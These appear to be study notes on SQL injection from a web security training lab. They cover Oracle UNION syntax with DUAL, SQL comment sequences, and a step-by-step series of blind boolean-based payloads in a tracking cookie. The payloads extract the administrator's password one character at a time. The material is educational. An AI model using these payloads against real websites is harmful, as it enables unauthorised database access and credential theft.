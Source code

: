 ## Cheatsheat - https://portswigger.net/web-security/sql-injection/cheat-sheet


On Oracle, every SELECT query must use the FROM keyword and specify a valid table. There is a built-in table on Oracle called dual which can be used for this purpose. So the injected queries on Oracle would need to look like:

`' UNION SELECT NULL FROM DUAL--`

The payloads described use the double-dash comment sequence -- to comment out the remainder of the original query following the injection point. On MySQL, the double-dash sequence must be followed by a space. Alternatively, the hash character # can be used to identify a comment.
For more details of database-specific syntax, see the SQL injection cheat sheet.

### Lab: Blind SQL injection with conditional responses
```
TrackingId=xyz' AND '1'='1
```
```
TrackingId=xyz' AND '1'='2
```
```
TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a
```
```
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a

```
```
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a

```
```
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a

```
```
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§

```
